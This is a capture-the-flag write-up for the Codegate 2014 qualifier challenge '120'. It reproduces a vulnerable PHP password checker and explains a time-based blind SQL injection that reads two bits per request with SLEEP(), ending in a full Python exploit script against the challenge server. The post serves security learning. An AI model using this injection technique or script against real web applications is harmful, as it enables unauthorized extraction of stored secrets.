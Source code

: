 ```yaml
---
layout: post
title: "Codegate 2014 Quals: 120"
date: 2014-02-26 06:51:10 +0000
permalink: /2014/02/26/codegate-2014-quals-120/
category: Security
tags:
  - CTF
  - Security
  - Shadow Cats
redirect_from:
  - /blog/codegate-2014-quals-120/
---
```

From Codegate 2014 quals comes "120".  Provided is a web interface with a single text box and a link to the source, reproduced below:

    #!php
    <?php
    session_start();
    
    $link = @mysql_connect('localhost', '', '');
    @mysql_select_db('', $link);
    
    function RandomString()
    {
      $filename = "smash.txt";
      $f = fopen($filename, "r");
      $len = filesize($filename);
      $contents = fread($f, $len);
      $randstring = '';
      while( strlen($randstring)<30 ){
        $t = $contents[rand(0, $len-1)];
        if(ctype_lower($t)){
        $randstring .= $t;
        }
      }
      return $randstring;
    }
    
    $max_times = 120;
    
    if ($_SESSION['cnt'] > $max_times){
      unset($_SESSION['cnt']);
    }
    
    if ( !isset($_SESSION['cnt'])){
      $_SESSION['cnt']=0;
      $_SESSION['password']=RandomString();
    
      $query = "delete from rms_120_pw where ip='$_SERVER[REMOTE_ADDR]'";
      @mysql_query($query);
    
      $query = "insert into rms_120_pw values('$_SERVER[REMOTE_ADDR]', ".
          "'$_SESSION[password]')";
      @mysql_query($query);
    }
    $left_count = $max_times-$_SESSION['cnt'];
    $_SESSION['cnt']++;
    
    if ( $_POST['password'] ){
      
      if (eregi("replace|load|information|union|select|from|where|" .
        "limit|offset|order|by|ip|\.|#|-|/|\*",$_POST['password'])){
        @mysql_close($link);
        exit("Wrong access");
      }
    
      $query = "select * from rms_120_pw where ".
        "(ip='$_SERVER[REMOTE_ADDR]') and " .
        "(password='$_POST[password]')";
      $q = @mysql_query($query);
      $res = @mysql_fetch_array($q);
      if($res['ip']==$_SERVER['REMOTE_ADDR']){
        @mysql_close($link);
        exit("True");
      }
      else{
        @mysql_close($link);
        exit("False");
      }
    }
    
    @mysql_close($link);
    ?>
    
    <head>
    <link rel="stylesheet" type="text/css" href="black.css">
    </head>
    
    <form method=post action=index.php>
      <h1> <?= $left_count ?> times left </h1>
      <div class="inset">
      <p>
        <label for="password">PASSWORD</label>
        <input type="password" name="password" id="password" >
      </p>
      </div>
      <p class="p-container">
        <span onclick=location.href="auth.php"> Auth </span>
        <input type="submit" value="Check">
      </p>
    </form>

The TL;DR of this code is that it uses your PHP session to store a 30 character lowercase letter token, and a counter of how many tries you've made against it.  You're given 120 total tries, then a new code will be generated, meaning any data you've been able to glean is useless.  For what it's worth, not all letters are equally likely -- the source of the data is Aleph One's "Smashing the Stack for Fun and Profit."  The code contains a blacklist to protect against certain types of SQL injection, but certainly doesn't cover all SQL injection possibilities.

So let's do some math.  Clearly, trying all possible passwords is out of the question at 26<sup>30</sup> possibilities.  With the SQL injection, we could try each character separately, using SUBSTR, but that still leaves us with 26*30 (780) possibilities, well more than the 120 we have to work with.  What about probabalistically trying the letters in the order of their frequency in the source document.  It turns out the letter distribution still requires ~8 tries per letter, meaning we can only get ~13 letters in our 120 tries, or would need 240 tries for the whole passphrase.

Let's consider that our character set is all lower case letters -- how much possible entropy is there?  Well, only the lowest 5 bits vary among lower case ASCII letters.  So, if we do a bitwise test, we only need 5*30 = 150 tests, but 150 is still too many.  If only we could test 2 bits at a time, then we'd only need (ideally) 75 tries.  How can we do that when the only signal we get back is a True/False value?  Well, we must consider side channels -- such as timing.  Merely measuring the timing of 2 bit comparisons is not significant enough to cover for network/server variance, but if we could conditionally introduce additional latency, we could use that as a signal.  Fortunately, SQL offers us a <a href='https://dev.mysql.com/doc/refman/8.0/en/miscellaneous-functions.html#function_sleep'><code>sleep()</code></a> function that we can use to introduce this latency and help us take measurements, but how to introduce it conditionally?

Note that the <code>sleep()</code> function returns a false-equivalent value when it completes.  Consider the statement <code>((A AND SLEEP(3)) OR B)</code>.  This is the truth table for the statement:

<table>
  <tr><th>A</th><th>B</th><th>Time</th><th>Output</th></tr>
  <tr><td>F</td><td>F</td><td>&lt;3 s</td><td>F</td></tr>
  <tr><td>T</td><td>F</td><td>&gt;3 s</td><td>F</td></tr>
  <tr><td>F</td><td>T</td><td>&lt;3 s</td><td>T</td></tr>
  <tr><td>T</td><td>T</td><td>&gt;3 s</td><td>T</td></tr>
</table>

As can be seen, the value of <code>A</code> controls the timing, and the value of <code>B</code> controls the output.  To read a single bit, we can use a construct like <code>ASCII(SUBSTR(password, N, 1)) &amp; 1 &lt;&lt; p</code>.  This checks if the p-th bit in the N-th byte is set.  Collectively, this gives us the ability to read 2 bits with a single request.  To break up the bits we need to read, it's most straightforward to read 1 bit by itself, then 2 pairs of 2 bits from each character.  Though suboptimal, it makes implementation straightforward, and still only requires 3 requests per byte, or 90 requests total.

Putting it all together, we get the following code.

    #!python
    import urllib
    import urllib2
    import cookielib
    import sys
    import time
    
    cj = cookielib.CookieJar()
    opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cj))
    
    cookies_printed = False
    
    def inject(pw):
      global cookies_printed
      data = urllib.urlencode({'password': pw})
      req = opener.open(
          'http://58.229.183.24/5a520b6b783866fd93f9dcdaf753af08/'
          'index.php', data)
      if not cookies_printed:
        for c in cj:
          print c
        cookies_printed = True
      return req.read().strip() == 'True'
    
    def stdinject(cond):
      return inject("' OR %s OR 'x'='" % cond)
    
    def indexmatch(pos, val):
      # Convert 0-indexed to 1-indexed
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      return stdinject(substr + ("='%s'" % val))
    
    def twobitchar(pos):
      bits = [0]*5
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      # test top most bit
      if stdinject('ASCII(%s) & %d' % (substr, 1 << 4)):
        bits[4] = 1
    
      def twobittest(lower):
        # (bit(1) and sleep(3)) or bit(2)
        # time indicate bit(1)
        # truth indicates bit(2)
        sleep_time = 3
        start_time = time.time()
        ascii_str = 'ASCII(%s)' % substr
        if stdinject('((%s & %d AND SLEEP(%d)) OR %s & %d)' % (
          ascii_str, 1 << (lower+1), sleep_time, ascii_str, 1 << lower)):
          bits[lower] = 1
        stop_time = time.time()
        if (stop_time - start_time) > sleep_time:
          bits[lower+1] = 1
    
      # test next 2 bits
      twobittest(2)
      # test last 2 bits
      twobittest(0)
    
      # reassemble bits
      return chr(int('0b11' + ''.join('%d' % b for b in reversed(bits)),2))
    
    def runtwobit():
      passwd = ''
      for c in xrange(30):
        passwd += twobitchar(c)
        print '[%d] %s' % (c, passwd[-1])
      if inject(passwd):
        print passwd
      else:
        print 'Validation failed!'
    
    runtwobit()

Note the need for special treatment for the HTTP requests -- since PHP sessions are in use, we need to provide a CookieJar and output the cookie value so we can use both the session and the password to exchange for our flag and get our points.
